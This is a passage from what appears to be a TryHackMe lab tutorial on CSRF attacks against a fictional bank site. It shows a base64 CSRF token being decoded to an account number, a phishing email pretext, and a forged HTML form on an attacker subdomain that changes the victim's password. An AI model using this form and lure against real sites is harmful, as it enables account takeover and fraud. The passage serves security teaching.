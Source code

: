 ```html
<form method="post" action="">
        <label for="password">Password:</label>
        <input type="password" id="password" name="new_password" required>

        <label for="confirm_password">ConfirmPassword:</label>
        <input type="password" id="confirm_password" name="confirm_password" required>
		<input type="hidden" id="csrf_token" name="csrf_token" value="<?php echo $_COOKIE['csrf-token']; ?>">
        <button type="submit" name="password_submit" >Update Password</button>
    </form>submit">
</form> 
```

- But does that ultimately resolve the problem? An attacker can only bypass this security measure if he finds a way to reverse-engineer the token.
- He opens the Chrome built-in `Inspect element` console to verify the cookies created locally by the website.

![csrf-token cookie in chrome](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/ae41dfc7d2c56d13ab5461e23919addb.png)

_Click to enlarge the image._

- The attackers identified two relevant cookies created in the browser: `csrf-token` and `PHPSESSID`. Typically, the PHPSESSID is randomly generated by the PHP engine itself, and it is not very easy to reverse it for session hijacking. Consequently, the attacker copied his token and noticed if he could reverse engineer it.  
    
- He used [Cyber Chef](https://gchq.github.io/CyberChef/#recipe=From_Base64\('A-Za-z0-9%2B/%3D',true,false\)&input=UjBJNE1rMVpRa0ZPU3pVMk9UZ0s) to see if he could decode the string and, surprisingly, noticed that the CSRF token was a string he could decrypt.

![reversing the token through cyber chef](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/2726df6a335d01d4e41ba634ebdd896e.png)  

- He noticed that the string decoded from the token was his bank account number, meaning the web application developer needed to implement CSRF tokens better to avoid exploitation. We know that the attacker already has access to the subdomain of `mybank.thm` which can help him inject the cookie and has already reverse-engineered the cookie. Now, it's time to prepare a payload.  
    

**Preparing Payload**

- For the attack to work, the attacker would use the social engineering technique to make the victim click on a link.
- The attacker will prepare an enticing email to compel the user to change his password. He prepared an email citing a suspicious login attempt to Josh email and sent it to Josh.

![email screenshot](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/1ef37fe99417df64e42cb2c3afd73740.png)  

- The email contained a link to an **attacker-controlled domain** (`attacker.mybank.thm`) with a password update form similar to a bank one. The form also has a CSRF token already set as a hidden parameter.

```html
<form method="post" action="http://mybank.thm:8080//changepassword.php" id="autos">
        <label for="password">Password:</label>
        <input type="password" id="password" name="current_password" value="<?php echo "GB82MYBANK5697" ?>" required>

        <label for="confirm_password">ConfirmPassword:</label>
        <input type="password" id="confirm_password" name="confirm_password" value="Attacker Unique Password" required>
		<input type="hidden" id="csrf_token" name="csrf_token" value="Decrypted Token Value">
		

        <button type="submit" name="password_submit"  id="password_submit" >Update Password</button>
    </form>
```